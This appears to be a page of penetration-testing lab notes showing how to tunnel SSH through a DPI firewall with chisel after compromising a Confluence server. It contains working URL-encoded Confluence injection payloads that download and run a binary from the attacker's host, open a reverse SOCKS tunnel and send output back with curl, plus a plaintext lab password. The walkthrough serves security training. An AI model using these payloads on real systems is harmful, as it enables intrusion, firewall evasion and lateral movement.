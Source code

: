 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# HTTP Tunneling

Our scenario:

* We have compromised `CONFLUENCE01` and can execute commands through HTTP requests.
* A DPI solution (`FIREWALL/INSPECTOR`) is blocking all outbound traffic except HTTP, and only TCP port `8090` is open on `CONFLUENCE01`. This means we can use tools like `curl` and `wget`.
* As a result, a standard reverse shell or an SSH remote port forward, which doesn't follow the HTTP format, would be blocked by the DPI.
* We have obtained credentials for `PGDATABASE01`.
* Our goal is to SSH directly from Kali to `CONFLUENCE01`.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FE45LC2WbhFMMhiHd0yvC%252Fhttp_tunneling.png%3Falt%3Dmedia%26token%3D5264f66a-25ec-4ffe-8397-fd5d07c90485&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=70a87cc7&#x26;sv=2" alt=""><figcaption></figcaption></figure>

`chisel` is an HTTP tunneling tool that encapsulates data within HTTP packets and uses SSH for encryption, allowing secure data transmission through firewalls or restrictive networks.

1. We’ll run a Chisel server on the Kali machine to accept a connection from a client on `CONFLUENCE01`.
2. The server will bind a SOCKS proxy port, tunnel traffic through an SSH-encrypted HTTP connection, and the client will forward it to its destination.

Chisel tunnels traffic over HTTP, bypassing DPI. The Kali Chisel server listens on TCP port `1080` (SOCKS proxy). Traffic sent to this port is encapsulated in HTTP, sent to the client, and forwarded to its destination.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252F4yF1xzfTymZW0WMsJ7M0%252Fhttp_tunneling_chisel.png%3Falt%3Dmedia%26token%3D18134f44-2f61-4d5b-84a1-3c183e4fb6e8&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=ed761164&#x26;sv=2" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# modify the vulnerability in order to transfer the binary on CONFLUENCE01
# command: wget 192.168.45.235/chisel -O /tmp/chisel && chmod +x /tmp/chisel
$ curl http://192.168.246.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.235/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

# start the chisel server (reverse port forward) on Kali
$ chisel server --port 8080 --reverse
2025/04/20 16:25:09 server: Reverse tunnelling enabled
2025/04/20 16:25:09 server: Fingerprint CaRdMXQ8pQ4mwvVx3pGUSV5IrPsCf3BdDnoEoAPU2cU=
2025/04/20 16:25:09 server: Listening on http://0.0.0.0:8080
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# connent from the client to the server
# command: /tmp/chisel client 192.168.45.235:8080 R:socks > /dev/null 2>&1 &
$ curl http://192.168.246.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.235:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
{% endcode %}

We get a new connection on the Chisel server.

```bash
$ chisel server --port 8080 --reverse
...
2025/04/20 16:29:12 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

$ sudo netstat -ntlp | grep 1080
tcp  0  0 127.0.0.1:1080  0.0.0.0:*   LISTEN  930/./chisel
```

In case of errors.

{% code overflow="wrap" %}
```bash
# check traffic for error messages
$ sudo tcpdump -nvvvXi tun0 tcp port 8080

# command: /tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
$ curl http://192.168.246.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.235:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.45.235:8080/%27%29.start%28%29%22%29%7D/
```
{% endcode %}

Our SOCKS proxy on Kali listens at `127.0.0.1:1080`. To connect SSH through it to `PGDATABASE01`, we'll use SSH’s `ProxyCommand` option, which lets us define a proxy-aware connection method. While OpenBSD Netcat supports this natively, Kali’s version doesn’t — so we’ll use `ncat`, the Nmap team’s Netcat alternative, which does.

We’ll pass an `ncat` command to `ProxyCommand`, telling it to use the SOCKS5 proxy at `127.0.0.1:1080`. The `%h` and `%p` tokens are placeholders SSH replaces with the target host and port before executing the command.

{% code overflow="wrap" %}
```bash
$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.246.215
...
database_admin@10.4.246.215's password: #sqlpass123
...
database_admin@pgdatabase01:~$
```
{% endcode %}
